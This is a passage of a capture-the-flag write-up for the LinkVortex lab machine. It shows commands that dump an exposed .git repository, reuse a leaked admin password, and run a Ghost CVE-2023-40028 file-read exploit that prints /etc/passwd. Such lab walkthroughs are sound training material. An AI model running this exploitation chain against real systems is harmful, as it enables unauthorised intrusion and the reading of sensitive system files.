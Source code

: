```bash
.git                    [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 243ms]
:: Progress: [43007/43007] :: Job [1/1] :: 142 req/sec :: Duration: [0:04:39] :: Errors: 0 ::

```

To get the repository we use git dumper.
```bash
└─$ git-dumper http://dev.linkvortex.htb/.git/ website
```

Used Vs code to view the changes made on the file and found that there is one that was done but not yet committed.
![image](https://gist.github.com/user-attachments/assets/37801907-0c4c-40b6-9d68-d9d5179590b2)

The password was changed from :  
- `previous` : `thisissupersafe`  
- `Current` : `OctopiFociPilfer45`

Now we have a valid username and some potential passwords.
![image](https://gist.github.com/user-attachments/assets/07697919-d70e-4289-b291-4d46fff83652)
The new password works and we get logged in as the admin.  

Poking around we don't get much but we do get the version of Ghost running.
![image](https://gist.github.com/user-attachments/assets/073d49ea-ccce-4cb8-91de-7478b492f60c)

# Exploitation
Using the version number we get that the application is vulnerable to `Arbitrary File Read`  which is [CVE-2023-40028](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028/blob/master/README.md) .    
The exploit works by leveraging a `symlink` in an uploaded ZIP file, giving the  attacker  unauthorized access to sensitive files on the system.   
Running the exploit:
```
└─$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash

```
